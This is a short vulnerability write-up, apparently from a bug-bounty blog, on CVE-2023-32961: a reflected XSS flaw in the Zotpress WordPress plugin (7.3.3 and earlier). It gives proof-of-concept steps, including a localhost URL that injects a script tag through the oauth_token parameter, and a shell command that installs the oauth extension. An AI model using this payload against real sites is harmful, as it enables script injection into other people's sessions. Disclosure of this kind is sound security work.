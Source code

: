 ```yaml
---
layout: post
date: 2023-05-16
title: "CVE-2023-32961 Analysis"
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```




## Component details


---



### Component name


Zotpress



### Vulnerable version


≤ 7.3.3



### Component slug


zotpress



### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)



## Pre-requisite


---


Unauthenticated



## Vulenerability details


---



### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.



### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`


### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		
{% raw %}
```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
```
{% endraw %}


- Easy to install php oauth extension:
	- One Line Command :

		
{% raw %}
```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
```
{% endraw %}


- Tested in wordpress:latest Docker image.


### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}



## References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)

